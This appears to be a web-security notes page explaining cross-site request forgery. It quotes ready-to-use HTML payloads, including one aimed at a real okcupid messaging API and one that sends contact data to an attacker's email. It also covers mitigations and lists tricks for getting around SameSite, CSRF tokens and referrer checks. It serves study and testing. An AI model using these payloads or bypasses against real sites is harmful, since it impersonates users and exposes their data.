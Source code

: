 ```yaml
---
description: Making a request on the user's behalf.
---
```


# Cross Site Request Forgery (CSRF)

## Overview

If a website automatically sends a user's credentials when you interact with it (cookies are sent automatically), then CSRF can be used to impersonate the user (assuming the website doesn't do anything to prevent it).

## Common CSRF Payloads

Different types of endpoints require different techniques:

* POST
* GET
* DELETE/UPDATE
* JSON endpoint
* XML endpoint

### POST

Make a POST form with hidden inputs and use JavaScript to send the POST request automatically when the user navigates to the page.

### GET

Make an image with zero width and length and `src=`t`he_csrf_Link`. The GET request is made automatically when the browser tries to load the image.

### PUT/DELETE

This one is very difficult. Can only be accomplished with like browser plugins/plugin vulns and stuff.

### JSON

You can try to do a CSRF request to a JSON API endpoint.

[https://blog.azuki.vip/csrf/](https://blog.azuki.vip/csrf/)\


**Caveats** (as of august 2021):

* The server must not require **content-type: application/json** in the headers. The method results in a request with a **content-type: text/plain**  header
* This method results in one of the fields in the JSON request being `"foo":"="`. In other words, the server must not deny the request because of an **unexpected field**, or an **expected field with the value** `=`
* The SameSite cookie attribute must not be Strict
  * It defaults to **Lax** on browsers
  * In Firefox, it always works when SameSite has not been set
    * Haven’t tested when SameSite has been explicitly set to Lax
  * In Chrome, it works when SameSite has not been set
    * But only for **two minutes**, starting from the time the cookie was assigned to the user
    * Probably won’t work if SameSite has been explicitly set to Lax





Sample payload from the article. Sends a JSON request to the okcupid API:

```
<html>  
 <body>  
   <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send" enctype="text/plain"\>  
     <input style='display:none' name='{"foo":"' value='", "receiverid":"123", "body":"i am a rabbit", "source":"desktop\_global", "service":"other"}'\>  
     <input type="submit" value="Click me"\>  
   </form>  
   <script>  
     window.onload = () => {form.submit()}  
   </script>  
 </body>  
</html>
```

Zseano also talked about it in his [blog article](https://web.archive.org/web/20190523101945/https://zseano.com/tutorials/5.html). Here's his payload (but his is **older**):

```
<html>
     <body>
        <form ENCTYPE="text/plain" action="http://vulnsite.com/snip/snippet.php" method="post"> 
        <input type="hidden" name="{"params":{"limit":20,"and":false,"filters":[],"excluded_contacts":[]},"fields":["First Name","Last Name","Email Address","Title","Notes","Organization","Street","City","State","Tags","Zip Code","Phone Number","Gender","Event ID","Event Title","VIP","Twitter Handle","Twitter URL","Twitter Followers","Twitter Following","Facebook Name","Facebook URL","Facebook Friends","Instagram Handle","Instagram URL","Instagram Followers","Instagram Following","Website","Date Added","Unsubscribed"],"recipient":"myemail+2" value='@gmail.com'>
         <input type="submit" value="submit"> </form>
     </body>
  </html>
  
```

### XML

From Zseano's [blog](https://web.archive.org/web/20190523101945/https://zseano.com/tutorials/5.html):

```
<html>
     <body>
        <form ENCTYPE="text/plain" action="http://vulnsite.com/snip/snippet.php" method="post"> 
        <input type="hidden" name="<foo> <html xmlns:html='http://www.w3.org/1999/xhtml'> <html:script>alert(1);</html:script> </html> </foo>">
         <input type="submit" value="submit"> </form>
     </body>
  </html>
```

## Login CSRF

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#login-csrf" %}

Many developers tend to ignore CSRF vulnerabilities on login forms. They assume that CSRF would not be applicable on login forms because the user is not authenticated at that stage. However, CSRF vulnerabilities can still occur on login forms where the user is not authenticated, but the impact and risk is different.

For example, if an attacker uses CSRF to authenticate a victim on a shopping website using the attacker's account, and the victim then enters their credit card information, an attacker may be able to purchase items using the victim's stored card details

## Mitigations

OWASP Prevention Cheat Sheet

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html" %}

### SameSite

The default option for [SameSite](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite) these days is **Lax**, which stops a lot of CSRF requests (cookies aren't sent with POST requests from other domains).

The web application is still vulnerable if:

* It does something sensitive in response to a GET request -- cookies are still sent along with GET requests if the user navigates to the site.
* The CSRF comes from a subdomain. For example, pages.github.com can still CSRF github.com.
* [Chrome SameSite Lax+POST](cross-site-request-forgery-csrf.md#chrome-default-samesite-bypass)

## Mitigation Bypasses

### Chrome Default SameSite Lax+POST Bypass

{% embed url="https://medium.com/@renwa/bypass-samesite-cookies-default-to-lax-and-get-csrf-343ba09b9f2b" %}

While Chrome does set cookies to SameSite=Lax by default, for the first two minutes after the cookie was set, the policy is effectively SameSite=None. This can be used to exploit CSRF in certain cases.

### CSRF Tokens

If an anti-CSRF token is added, you can bypass it with:

* XSS
* Steal the CSRF token (using CSS injection, for example)
* Clickjacking
  * If you can fill in the data you want for them, and then clickjack them into hitting “submit” (through an iframe), then you can make a request on their behalf
* CSRF token misconfigurations
  * Try a blank csrf token
  * Try to see if accounts can share the same CSRF token. Make 2 accounts and see if the same token works for both.
  * Change one character in the token, maybe it only checks length or something.

### Referrer Header Checking



If the Referrer header is checked, then you can try a few things: &#x20;

1. If `site.com/csrf` checks that "site.com" is in the string, you can send the query from `malicious.com/site.com` or `site.com.malicious.com` .
2. Send a blank referrer header and see if that works
3. Use XSS (like reflected XSS) to achieve the goal.





